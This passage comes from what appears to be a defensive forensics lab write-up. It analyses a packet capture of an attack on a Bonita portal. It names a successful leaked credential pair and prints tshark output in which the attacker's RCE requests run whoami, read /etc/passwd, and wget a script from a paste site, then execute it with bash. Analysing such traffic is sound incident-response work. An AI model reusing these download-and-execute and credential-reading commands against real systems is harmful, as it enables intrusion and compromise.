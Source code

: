 ### Task 6
Which username and password combination was successful?

The blank lines were after the combination `seb.broom@forela.co.uk:g0vernm3nt`. So probably this was the correct one.

We can verify this if we search for the only `POST` request with a `2XX` response and take a closer look into the HTTP stream:
![Valid login](./images/pcap_valid_login.png)

### Task 7
If any, which text sharing site did the attacker utilise?

We can look into the `GET` request ULSs that were done in the PCAP:
```
$ tshark -r meerkat.pcap -Y 'http.request.method == "GET"' -T fields -e http.request.uri
/bonita
/bonita/portal/homepage
/bonita/API/extension/rce?p=0&c=1&cmd=whoami
/bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd
/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/ubuntu/pool/main/l/lapack/libblas3_3.10.0-2ubuntu1_amd64.deb
/ubuntu/pool/universe/libl/liblinear/liblinear4_2.3.0%2bdfsg-5_amd64.deb,/ubuntu/pool/main/l/lua5.3/liblua5.3-0_5.3.6-1build1_amd64.deb,/ubuntu/pool/universe/l/lua-lpeg/lua-lpeg_1.0.2-1_amd64.deb,/ubuntu/pool/universe/n/nmap/nmap-common_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_all.deb,/ubuntu/pool/universe/n/nmap/nmap_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_amd64.deb
$
```
